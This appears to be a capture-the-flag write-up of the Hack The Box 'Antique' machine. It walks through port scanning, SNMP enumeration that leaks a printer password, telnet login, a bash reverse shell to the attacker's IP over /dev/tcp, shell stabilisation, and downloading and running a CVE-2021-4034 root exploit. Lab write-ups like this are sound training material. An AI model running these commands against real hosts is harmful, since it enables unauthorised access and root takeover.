

# [Antique](https://app.hackthebox.com/machines/Antique)

```bash
nmap -p- --min-rate 5000 10.10.11.107 -Pn
```




We know that just telnet port is open, let's do greater scan for this port.

```bash
nmap -A -sC -sV -p23 10.10.11.107
```


I cannot find anything interesting, let's scan UDP ports.

```bash
nmap -p- -sU --min-rate 5000 10.10.11.107 -Pn
```


I see that `SNMP` port is open, let's use `snmpwalk` command to find interesting stuff here.

I read this [article](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

```bash
snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```


There's a lot of numbers which shows obfuscated data, to get real data , I will use `Python`.


I get password 'P@ssw0rd@123!!123' from this field, I connect into `telnet` via this credentials.


I can execute commands from here, as you see, let's add reverse shell payload here.

```bash
exec bash -c 'bash -i >& /dev/tcp/10.10.16.7/1337 0>&1'
```


Hola, I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


user.txt


I just look `policykit` via below command.

```bash
dpkg -s policykit-1
```


I got version from here , that's **"Version: 0.105-26ubuntu1.1"**.That's [CVE-2021-4034](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)


I just open http server on my machine.

```bash
python3 -m http.server --bind 10.10.16.7 8080
```


I got this file via `wget` command as below.
```bash
wget http://10.10.16.7:8080/script.py
```


Let's just execute this script to get root shell.


root.txt

